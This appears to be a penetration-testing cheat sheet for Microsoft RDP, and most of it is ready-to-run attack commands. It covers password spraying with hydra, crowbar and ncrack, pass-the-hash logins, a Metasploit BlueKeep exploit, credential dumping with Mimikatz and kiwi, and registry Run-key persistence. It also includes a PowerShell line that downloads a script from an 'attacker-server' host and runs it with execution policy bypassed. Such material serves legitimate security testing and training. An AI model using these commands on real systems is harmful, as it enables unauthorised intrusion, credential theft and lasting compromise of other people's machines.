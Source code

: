 # 3389 - Pentesting RDP

## Basic Information

RDP (Remote Desktop Protocol) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. RDP allows remote access to the graphical desktop of a computer and is widely used for remote administration tasks.

RDP operates on a client-server model, where the client initiates a connection to the server to access the desktop environment and applications of the remote machine.

**Default port:** 3389

```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Connect
Connect Using Remote Desktop Connection
You can connect to an RDP server using the Remote Desktop Connection utility on Windows or through third-party clients on other operating systems.
```
mstsc /v:<target-ip>:<port>
```
## Connect Using xfreerdp
xfreerdp is an open-source RDP client available for various platforms, including Linux.
```
xfreerdp /v:<target-ip>:<port>
```
## Enumeration

### Automatic

```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

### [Brute force](../generic-hacking/brute-force.md#rdp)

**Be careful, you could lock accounts**

### **Password Spraying**

**Be careful, you could lock accounts**

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
hydra -t 1 -l <username> -P <password-list> rdp://<target-ip>
ncrack -U <username-list> -P <password-list> rdp://<target-ip>
```

### Connect with known credentials/hash

```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
## Exploiting Vulnerabilities
BlueKeep (CVE-2019-0708)
If the target RDP service is running on a certain version of windows, it might be vulnerable to the Bluekeep vulnerability. We can use Metasploit to exploit:
```
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS TARGET_IP
set LHOST YOUR_IP
exploit
```
### Check known credentials against RDP services

rdp\_check.py from impacket let you check if some credentials are valid for a RDP service:

```bash
rdp_check <domain>/<name>:<password>@<IP>
```
## Post-Exploitation
### Dumping Credentials
#### Dumping Credentials with Mimikatz
After gaining access, use Mimikatz to dump credentials and other critical information from memory.
```
Invoke-Mimikatz -DumpCreds
```
## Dumping Credentials with Kiwi
Once you have an RDP session, you can use the kiwi extension to dump credentials from the memory:
```
meterpreter > load kiwi
meterpreter > creds_all
```
## Remote Code Execution (RCE)
Once access is gained to an RDP server, you can execute arbitrary code on the target system, potentially leading to further compromise or data exfiltration.
```
powershell
Invoke-WebRequest -Uri http://attacker-server/malicious-script.ps1 -OutFile C:\temp\malicious-script.ps1
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\temp\malicious-script.ps1
```
Running a remote program on the RDP server:
```
psexec \\target-ip -u username -p password "cmd.exe /c \"C:\path\to\executable.exe\""
```
## Persistence
Establishing persistence on the compromised system allows attackers to maintain access even after the initial compromise is remediated.

Tools like adding registry entries or creating scheduled tasks can be used for persistence on Windows systems.
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v <key-name> /t REG_SZ /d "<malicious-command>" /f
```
### RDP Process Injection

If someone from a different domain or with **better privileges login via RDP** to the PC where **you are an Admin**, you can **inject** your beacon in his **RDP session process** and act as him:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group

```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```

## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** is a post-exploitation framework created in Powershell, designed primarily to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to **view his victim's desktop without his consent**, and even control it on demand, using tools native to the operating system itself.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
  * Control mouse and keyboard in an automated way from command line
  * Control clipboard in an automated way from command line
  * Spawn a SOCKS proxy from the client that channels network communication to the target via RDP
  * Execute arbitrary SHELL and PowerShell commands on the target without uploading files
  * Upload and download files to/from the target even when file transfers are disabled on the target

## HackTricks Automatic Commands

```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for RDP
  Note: |
    Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device. 

    https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
  Name: Nmap
  Description: Nmap with RDP Scripts
  Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
